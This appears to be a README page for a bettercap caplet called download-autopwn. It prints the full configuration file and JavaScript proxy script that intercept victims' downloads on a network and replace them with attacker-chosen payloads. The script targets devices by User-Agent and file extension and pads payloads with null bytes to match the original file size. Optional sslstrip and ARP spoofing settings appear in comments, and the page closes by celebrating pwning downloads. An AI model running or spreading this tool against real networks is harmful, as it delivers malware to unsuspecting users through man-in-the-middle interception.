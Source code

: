 <p align="center"><img height="142px" src="http://svgur.com/i/5rA.svg" /></p>


### caplets/download-autopwn.cap

Everything is configurable in the **download-autopwn.cap** file.

```sh
# documentation can be found at https://github.com/bettercap/caplets/...
# 
# this module lets you intercept very specific download requests and replaces the payload with one of your choice
#
# in order for a download to get intercepted:
#    1. the victim's user-agent string must match the downloadautopwn.useragent.x regexp value
#    2. the requested file must match one of the downloadautopwn.extensions.x file extensions
#
# you can find the downloadautopwn.devices in the caplets/download-autopwn/ folder (you can always add your own)

# choose the devices from which downloads get pwned (enter the dir names of choice from caplets/download-autopwn/)
# (or feel free to add your own)
set downloadautopwn.devices android,ios,linux,macos,ps4,windows,xbox

# choose the regexp value that the victim's User-Agent has to match
# (feel free to add your own)
set downloadautopwn.useragent.android  Android
set downloadautopwn.useragent.ios      iPad|iPhone|iPod
set downloadautopwn.useragent.linux    Linux
set downloadautopwn.useragent.macos    Intel Mac OS X 10_
set downloadautopwn.useragent.ps4      PlayStation 4
set downloadautopwn.useragent.windows  Windows|WOW64
set downloadautopwn.useragent.xbox     Xbox

# choose which file extensions get intercepted and replaced by your payload on specific devices (payloads are in caplets/download-autopwn/.../)
# (again, you can add as many as you want)
# make sure the payload files exist and that they are all named "payload" (for example: payload.exe)
set downloadautopwn.extensions.android  apk,pdf,sh,pfx,zip
set downloadautopwn.extensions.ios      ipa,ios,ipb,ipsw,ipsx,ipcc,mobileconfig,pdf,zip
set downloadautopwn.extensions.linux    c,go,sh,py,rb,cr,pl,deb,pdf,jar,zip
set downloadautopwn.extensions.macos    app,dmg,doc,docx,jar,ai,ait,psd,pdf,c,go,sh,py,rb,pl,terminal,zip
set downloadautopwn.extensions.ps4      disc,pup,pdf,doc,docx,zip
set downloadautopwn.extensions.windows  exe,msi,bat,jar,dll,doc,docx,swf,psd,ai,ait,pdf,rar,zip
set downloadautopwn.extensions.xbox     exe,msi,jar,pdf,doc,docx,zip

# choose whether the proxy module resizes your payload to the requested file's size (if not set then default=false)
set downloadautopwn.resizepayloads true

# set download-autopwn.js as proxy script
set http.proxy.script caplets/download-autopwn.js
# uncomment if you want sslstrip enabled
# set http.proxy.sslstrip true
# start proxy
http.proxy on

# wait for everything to start properly
sleep 1

# uncomment if you want arp spoofing (make sure probing is off as it conflicts with arp spoofing)
# arp.spoof on
```

<br>

The `downloadautopwn.devices` variable accepts comma separated values. 
<br>
These values are the folder names inside the **caplets/download-autopwn/** directory.

<br>

The `downloadautopwn.useragent.x` variables accept a regular expression value (where `x` is the device name).
<br>
The victim's User-Agent string has to match this regex value.

<br>

The `downloadautopwn.extensions.x` variables accept file extensions that are present in the device's folder (where `x` is the device name).
<br>
These files must be present in the device's folder, and they must be called `payload` (for example: `payload.exe`).

<br>

The `downloadautopwn.resizepayloads` variable accepts a boolean value (default=false).
<br>
If this value is set to true, your payloads will be resized to match the requested file's size (unless your payload is bigger or equal to the requested file's size).

<br>

### caplets/download-autopwn.js

No changes should have to be made in the **download-autopwn.js** file.

```javascript
var targets = {},
    devices = []

var nullbyte = "\u0000"

var green   = "\033[32m",
    boldRed = "\033[1;31m",
    onRed   = "\033[41m",
    reset   = "\033[0m"

function onLoad() {
  devices = env("downloadautopwn.devices").split(",")
  for (var i = 0; i < devices.length; i++) {
    item = {
      "device": devices[i],
      "useragent": env("downloadautopwn.useragent." + devices[i]),
      "extensions": env("downloadautopwn.extensions." + devices[i]).split(",")
    }
    targets[i] = item
    logStr = "\n  " + green + targets[i]["device"] + reset +
      "\n    User-Agent: " + targets[i]["useragent"] + 
      "\n    Extensions: " + targets[i]["extensions"] + "\n"
  }
  log("Download Autopwn loaded.\n\nDownload Autopwn targets: \n" + logStr)
}

function onResponse(req, res) {
  // First of all check whether the requested path might have an extension (to save cpu)
  var strippedPath = req.Path.replace(/.*\//g, "")
  if (strippedPath.indexOf(".") != -1) {
    var userAgent,
        extension
    // Grab User-Agent
    for (var h = 0; h < req.Headers.length; h++) {
      if (req.Headers[h]["Name"] == "User-Agent") {
        userAgent = req.Headers[h]["Value"]
      }
    }
    // Iterate through targets
    for (var t = 0; t < Object.keys(targets).length; t++) {
      // Check if User-Agent is a target
      regex = new RegExp(targets[t]["useragent"])
      if ( userAgent.match(regex) ) {
        // Iterate through target extensions
        for (var e = 0; e < targets[t]["extensions"].length; e++) {
          // Check if requested path contains a targeted extension
          // function endsWith() could be a nice simplification here
          if ( strippedPath.replace(/.*\./g, "") == targets[t]["extensions"][e] ) {
            extension = targets[t]["extensions"][e]
            // Autopwn
            logStr = "\n\n  " + onRed + " " + reset + "  Autopwning download request from " + boldRed + req.Client + reset
            logStr += "\n  " + onRed + " " + reset
            logStr += "\n  " + onRed + " " + reset + "  Found " + boldRed + extension.toUpperCase() + reset + " extension in " + boldRed + req.Hostname + req.Path + reset
            logStr += "\n  " + onRed + " " + reset
            logStr += "\n  " + onRed + " " + reset + "  Grabbing " + boldRed + targets[t]["device"].toUpperCase() + reset + " payload..."
            // Check requested file size
            requestedFile = res.ReadBody()
            requestedFileSize = requestedFile.length
            payload = readFile("caplets/download-autopwn/" + targets[t]["device"] + "/payload." + extension)
            payloadSize = payload.length
            logStr += "\n  " + onRed + " " + reset + "  The size of the requested file is " + boldRed + requestedFileSize + reset + " bytes"
            logStr += "\n  " + onRed + " " + reset + "  The raw size of your payload is " + boldRed + payloadSize + reset + " bytes"
            logStr += "\n  " + onRed + " " + reset
            // Append nullbytes to payload if requested file is larger than payload and resizing is enabled
            if (requestedFileSize > payloadSize && env("downloadautopwn.resizepayloads") == "true") {
              logStr += "\n  " + onRed + " " + reset + "  Resizing your payload to " + boldRed + requestedFileSize + reset + " bytes..."
              sizeDifference = requestedFileSize - payloadSize
              nullbyteString = Array(sizeDifference + 1).join(nullbyte)
              payload += nullbyteString
            }
            logStr += "\n  " + onRed + " " + reset + "  Serving your payload to " + boldRed + req.Client + reset + "...\n"
            log(logStr)
            res.Body = payload
          }
        }
      }
    }
  }
}
```

<br>

### Now you're all set to pwn!

#### What it looks like when you have configured a crazy amount of payloads

![screenshot 1](https://user-images.githubusercontent.com/29265684/37411166-e3796c46-27ed-11e8-94da-8e1c226a0dd3.png)

#### What it looks like when you pwn someone's download >:-)

![screenshot 2](https://user-images.githubusercontent.com/29265684/37409382-f6bb143e-27e9-11e8-86c5-c1c556900556.png)

Have fun!
